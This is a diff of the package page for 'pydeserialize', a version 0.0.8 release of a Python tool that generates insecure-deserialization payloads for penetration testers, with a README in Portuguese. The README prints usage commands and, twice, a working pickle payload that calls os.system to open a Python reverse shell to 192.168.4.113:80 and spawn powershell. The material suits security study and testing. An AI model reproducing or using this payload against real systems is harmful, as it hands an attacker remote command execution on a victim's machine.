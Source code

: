 ```diff
+|_| |___|  
+     v0.0.8 - @joaoviictorti
+
+b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("powershell")\'\x94\x85\x94R\x94.'
+```
+
+<img width=100% src="https://capsule-render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer"/>
```

#### html2text {}

```diff
@@ -1,8 +1,8 @@
-Metadata-Version: 2.1 Name: pydeserialize Version: 0.0.7 Summary: Insecure
+Metadata-Version: 2.1 Name: pydeserialize Version: 0.0.8 Summary: Insecure
 deserialization in python Home-page: https://github.com/joaoviictorti/
 pyserialize Author: joaoviictorti (viictorjj) Author-email:
 joaovictorti08@gmail.com License: MIT License Keywords: serialize insegura
 desserialize Classifier: Development Status :: 5 - Production/Stable
 Classifier: Environment :: Console Classifier: Intended Audience :: System
 Administrators Classifier: License :: OSI Approved :: GNU General Public
 License v3 (GPLv3) Classifier: Natural Language :: English Classifier:
@@ -29,25 +29,25 @@
 pydeserialize Ã© construÃ­do para fazer apenas uma coisa - gera payloads de
 desserializaÃ§Ã£o insegura + encodes e faz isso muito bem. Projetei o
 `pydeserialize` para cumprir todas as responsabilidades para gera payloads e
 encodes, mantive um modelo consistentemente passivo para tornÃ¡-lo Ãºtil para
 testadores de penetraÃ§Ã£o. # CaracterÃ­sticas - Gera payloads para explora
 vulnerabilidades de desserializaÃ§Ã£o insegura em python # Forma de
 utilizaÃ§Ã£o ```sh pydeserialize -ip 192.168.4.113 -p 80 -e shell -o Windows
-pydeserialize -ip 192.168.4.113 -e b64-p 80 -o Linux ``` Isso exibirÃ¡ a ajuda
+pydeserialize -ip 192.168.4.113 -e b64 -p 80 -o Linux ``` Isso exibirÃ¡ a ajuda
 para a ferramenta. Aqui estÃ£o todos os switches que ele suporta: ```yaml _ _ _
 _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . | | | . | -_|_ -| -_| _| |
-.'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___| v0.0.7
+.'| | |- _| -_| | _|_ |___|___|___|___|_| |_|__,|_|_|___|___| |_| |___| v0.0.8
 - @joaoviictorti options: -h, --help show this help message and exit -ip IP
 Insert ip -p PORT Insert port -e {b64,shell,urlencode,hex} Insert encoding -o
 {Windows,Linux} Insert operational system ``` # InstalaÃ§Ã£o pydeserialize
 requer **python3** e para baixÃ¡-lo sÃ³ usar: ```sh pip3 install pydeserialize
 ``` # Executando pydeserialize ```console pydeserialize -ip 192.168.4.113 -p 80
 -o Windows -e shell _ _ _ _ ___ _ _ _| |___ ___ ___ ___|_|___| |_|___ ___ | . |
 | | . | -_|_ -| -_| _| | .'| | |- _| -_| | _|_ |___|___|___|___|_|
-|_|__,|_|_|___|___| |_| |___| v0.0.7 - @joaoviictorti
+|_|__,|_|_|___|___| |_| |___| v0.0.8 - @joaoviictorti
 b'\x80\x04\x95\xf9\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\xe1python
 -c \'import socket,subprocess,os;s=socket.socket
 (socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.4.113",80));os.dup2
 (s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;
 pty.spawn("powershell")\'\x94\x85\x94R\x94.' ``` [https://capsule-
 render.vercel.app/api?type=waving&color=0000FF&height=120&section=footer]
```
